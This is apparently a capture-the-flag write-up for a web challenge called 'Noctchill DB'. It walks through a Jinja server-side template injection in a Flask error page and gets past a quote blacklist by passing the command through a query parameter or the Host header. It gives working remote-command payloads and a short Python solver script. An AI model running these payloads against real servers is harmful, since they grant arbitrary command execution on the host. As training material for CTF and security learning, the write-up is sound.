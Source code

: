 # Web - Noctchill DB
* Given source code and link to a website and lets say `target`.
* Try visit `target/{{7*7}}` the page will show `49`, and try visit `target/{{'test'}}` the page will show `Hacking Attempt!` because we can't use `', "` since it includes on blacklist. 
* `<idol>` are rendered in page, it happens because the application didn't find idol data with index `<idol>` on idols dictionary, so application enter block of exception. Check out the part-of `app.py` below :
```
...
                render = render_template('404.html', idol=idol)
            return render_template_string(render)
...
```
* We can exploit route `target/<idol>` by using Server Side Template Injection Attack. But there is filter on ahead. We must create a payload without containing any character and word in blacklist.
* Jinja has builtin function [lipsum()]('https://jinja.palletsprojects.com/en/2.9.x/templates/#lipsum') on global scope. Then, we can access os module by using `__globals__` python builtin function. `lipsum.__globals__.os.popen(<cmd>).read()`
* `target/{{lipsum.__globals__.os.popen('ls').read()}}` will show `Hacking Attempt!`, to bypass this we can send our command through Host HTTP Header then we can access it using `request.host` or we can send through parameter `request.args.yourparam`.
* Our payload will look like this.
  `target/{{lipsum.__globals__.os.popen(request.args.cmd).read()}}?cmd=whoami`
* cat flag 
  `target/{{lipsum.__globals__.os.popen(request.args.cmd).read()}}?cmd=cat /flag*`

# My Solver
```
import requests
import re
import sys

url = "http://target/"

payload = '{{lipsum.__globals__.os.popen(request.host).read()}}'

r = requests.get(url+payload, headers={
    "Host": sys.argv[1]
})

print(r.text)
```